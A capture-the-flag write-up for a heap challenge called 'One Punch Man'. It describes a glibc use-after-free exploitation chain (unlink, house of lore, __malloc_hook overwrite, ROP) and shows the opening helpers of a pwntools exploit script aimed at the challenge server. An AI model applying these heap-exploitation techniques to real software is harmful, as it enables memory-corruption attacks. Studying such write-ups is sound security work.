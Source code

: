 
## One Punch Man

The vulnerability is a simple UAF, the relevant leakage is very easy, but we can only use `calloc` in normal allocation which does not use `tcache`, and size does not allow usage of `fastbin` and `unsorted bin` that would not be inserted into `tcache`. The hidden function allows `malloc(0x217)`, but only when `0x220` `tcache` count is larger than 6, so we cannot write `fd` to achieve arbitrary write.

Initially we tried `unsorted bin attack`, but it seems that we must use chunk that will not be putted into `tcache` to do unsorted bin attack. Then I tried `house of lore` to allocate a chunk at `tcache arena`, however the program crashes at `memset` function since the size passed into `memset` function is too large. The root cause is that `calloc` uses the `chunk_size-0x10` as the argument of `memset`, and `chunk_size` can only be `0` or a heap address, which always gives a size that is way too large.

The solution to that is to use `unlink` first to rewrite `0x220 tcache pointer` to `&pointer - 0x18`, so that we can allocate a chunk at `tcache arena` to fake a `0x10` chunk size there first, then use `house of lore` attack again, and this time size passed into `memset` is `0x10-0x10=0` which does not cause any crash.

Then it is easy to rewrite the `0x220 tcache pointer` while still keeping `tcache count` being 7, by allocating `malloc(0x217)` we can achieve arbitrary memory write. We can write `__malloc_hook` and perform ROP since stack contents are controllable.

```python
from pwn import *

AES_BLOCK_SIZE = 16
g_local=0
context(log_level='debug', arch='amd64')
e = ELF("./libc.so.6")
if g_local:
	sh = process("./one_punch", env={"LD_LIBRARY_PATH":"."})
	gdb.attach(sh)
else:
	sh = remote("52.198.120.1", 48763)

def ce(cmd, idx, name):
	sh.send(cmd + '\x00')
	sh.sendafter("idx: ", str(idx) + '\x00')
	sh.sendafter("name: ", name)
	sh.recvuntil("> ")

create = lambda idx,name: ce('1', idx, name)
edit = lambda idx,name: ce('2', idx, name)

def show(idx):
	sh.send('3\x00')
	sh.sendafter("idx: ", str(idx) + '\x00')
	sh.recvuntil("name: ")
	ret = sh.recvuntil("\n####")[:-5]
	sh.recvuntil("> ")
	return ret

def delete(idx):
	sh.send('4\x00')
	sh.sendafter("idx: ", str(idx) + '\x00')
	return sh.recvuntil("> ")

def punch(data="a"):
	sh.send("50056".ljust(8, '\x00'))
	sh.send(data)
	sh.recvuntil("> ")

```